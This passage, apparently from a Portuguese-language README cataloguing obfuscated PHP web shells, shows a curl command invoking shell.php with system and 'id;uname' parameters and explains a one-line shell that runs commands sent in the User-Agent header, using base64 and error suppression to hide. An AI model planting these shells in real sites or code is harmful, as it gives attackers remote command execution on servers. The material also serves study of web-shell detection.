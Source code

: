 Functions:
- ERROR_REPORTING <https://secure.php.net/manual/pt_BR/function.error-reporting.php>
- EXTRACT <http://php.net/manual/pt_BR/function.extract.php>
- GET_DEFINED_VARS <http://php.net/manual/pt_BR/function.get-defined-vars.php>
- ERROR CONTROL @ <https://www.php.net/manual/pt_BR/language.operators.errorcontrol.php>
- VARIABLE FUNCTIONS <http://php.net/manual/pt_BR/functions.variable-functions.php>
- DEFINE <http://php.net/manual/pt_BR/function.define.php>
- EXIT <http://php.net/manual/pt_BR/function.exit.php>
- $_REQUEST <https://www.php.net/manual/pt_BR/reserved.variables.request.php>

Variáveis: 

| REQUEST      | VALUE      | NOTA                         |
| ------------ | ---------- | ---------------------------- |
| $_REQUEST[1] | `system`   | `nome da function`           |
| $_REQUEST[2] | `id;uname` | `comando que será executado` |

Execução: 
```bash
curl -v 'http://localhost/shell.php?1=system&2=id;uname'
```

---

#### EXEMPLO 06

**Debugar o código:**

1. `(error_reporting(0))` e `$_=@`: 
  - Desativa a exibição de erros PHP, evitando que mensagens de erro sejam exibidas.
2. `$_=@explode(',',$_SERVER[base64_decode('SFRUUF9VU0VSX0FHRU5U')]))`:
  - `base64_decode('SFRUUF9VU0VSX0FHRU5U')` decodifica a string base64 para `HTTP_USER_AGENT`.
  - `$_SERVER[HTTP_USER_AGENT]` recupera o valor do cabeçalho User-Agent da requisição HTTP.
  - `explode(',', ...)` divide a string em um array usando vírgula como separador.
  - `$_` é um array que armazena os valores resultantes.
3. `($_[0]("{$_[1]}"))`:
  - `$_[0]` é o primeiro elemento do array `$_`.
  - `$_[1]` é o segundo elemento do array `$_`.
  - O código executa a função ou método armazenado em `$_[0]` -> `system` com o argumento `$_[1]`.
4. `exit;`:
   - Encerra a execução do script.

Functions:
- ERROR_REPORTING <https://secure.php.net/manual/pt_BR/function.error-reporting.php>
- EXPLODE <http://php.net/manual/pt_BR/function.explode.php>
- BASE64_DECODE <http://php.net/manual/pt_BR/function.base64-decode.php>
- ERROR CONTROL @ <https://www.php.net/manual/pt_BR/language.operators.errorcontrol.php>
- VARIABLE FUNCTIONS <http://php.net/manual/pt_BR/functions.variable-functions.php>
- EXIT <http://php.net/manual/pt_BR/function.exit.php>
- $_SERVER <https://www.php.net/manual/pt_BR/tutorial.useful.php>
  
Variáveis: 

| BASE64               | VALUE             |
| -------------------- | ----------------- |
| SFRUUF9VU0VSX0FHRU5U | `HTTP_USER_AGENT` |
